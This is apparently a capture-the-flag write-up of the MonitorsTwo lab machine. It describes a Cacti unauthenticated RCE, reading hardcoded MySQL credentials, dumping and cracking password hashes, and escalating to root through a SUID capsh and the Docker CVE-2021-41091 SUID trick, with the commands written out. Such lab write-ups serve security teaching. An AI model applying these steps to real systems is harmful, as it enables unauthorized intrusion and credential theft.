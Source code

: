 # MonitorsTwo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.78.86
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-29 23:41 EDT
Nmap scan report for 10.129.78.86
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Another web-based exploit.&#x20;

### Cacti

When we check the web port, we see that it is running Cacti.

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

The version run is actually vulnerable to one unauthenticated RCE exploit, and there are tons of PoCs online to use.

{% embed url="https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit" %}

This has to do with the polling of Cacti, and we just need to modify the exploit to point to our own IP address to get a shell.

<figure><img src="../../.gitbook/assets/image (42) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We got a shell on the docker, so the next step is to escape it.&#x20;

### MySQL Passwords

Within the `/` directory, we can find a bash script:

```
www-data@50bca5e748b0:/$ ls -la
ls -la
total 84
drwxr-xr-x   1 root root 4096 Mar 21 10:49 .
drwxr-xr-x   1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x   1 root root    0 Mar 21 10:49 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22 13:21 bin
drwxr-xr-x   2 root root 4096 Mar 22 13:21 boot
drwxr-xr-x   5 root root  340 Apr 29 22:40 dev
-rw-r--r--   1 root root  648 Jan  5 11:37 entrypoint.sh
```

Here's the content of it:

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

So we have a database password and we can enumerate the database. This docker doesn't have `python`, so we cannot spawn a shell via `pty`. Instead, we have to use the `-e` flag to enumerate the database since we don't have a proper shell.

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "show databases" 
<user=root --password=root cacti -e "show databases"
Database
information_schema
cacti
mysql
performance_schema
sys
```

We can extract the hashed password for the users within the database:

```
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

I ran `john` on the hashes, and managed to crack one of them to get `funkymonkey`.

![](<../../.gitbook/assets/image (9) (6) (2).png>)

With this and a username, we can `ssh` into the machine as `marcus`. Then, grab the user flag.

### CVE-2021-41091 --> Root Shell

Within the `/var/mail` folder, there's some mail for `marcus`:

{% code overflow="wrap" %}
```
marcus@monitorstwo:/var/mail$ cat marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
{% endcode %}

The first 2 vulnerabilities are not relevant, but the last one was rather interesting.&#x20;

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2021-41091" %}

In short, it appears that when dockers are created, some of the SUID binaries are carried over. In that case, we can enumerate the SUID binaries on the machine and find these using LinPEAS:

```
[+] SUID - Check easy privesc, exploits and write perms                                                                    
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                              
strace Not Found                                                                                                           
-rwsr-xr-x 1 root root 63K Feb  7  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)                                                                                                
-rwsr-xr-x 1 root root 44K Feb  7  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 52K Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58K Feb  7  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 35K Jan 20  2022 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Jan 20  2022 /bin/su
-rwsr-xr-x 1 root root 55K Jan 20  2022 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```

`capsh` has the SUID binary set, which is not the norm. Based on GTFOBins, we can run this command to spawn a root shell:

```
www-data@50bca5e748b0:/var/www/html$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Great! Now we are root on the docker. Now, we can find the mounted point of this docker from the main machine, and we can create a `bash` SUID binary to get a shell.&#x20;

First we need to find the mount point using `df`:

```
marcus@monitorstwo:/var/lib/docker$ df
Filesystem     1K-blocks    Used Available Use% Mounted on
udev             1966928       0   1966928   0% /dev
tmpfs             402608    1232    401376   1% /run
/dev/sda2        7054840 4451424   2513656  64% /
tmpfs            2013040       0   2013040   0% /dev/shm
tmpfs               5120       0      5120   0% /run/lock
tmpfs            2013040       0   2013040   0% /sys/fs/cgroup
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
shm                65536       0     65536   0% /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
overlay          7054840 4451424   2513656  64% /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
shm                65536       0     65536   0% /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
```

At`/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged` would bring us to the file system of the docker container. Then, using our root shell on docker, we can just use `chmod u+s /bin/bash` to spawn a SUID binary for the main machine to use.&#x20;

This works because of the CVE allowing for us to create SUID binaries across machines.&#x20;

We can see the SUID `bash` binary here:

<figure><img src="../../.gitbook/assets/image (625) (1).png" alt=""><figcaption></figcaption></figure>

We can get a root shell easily:

```
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p 
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
```

Rooted!
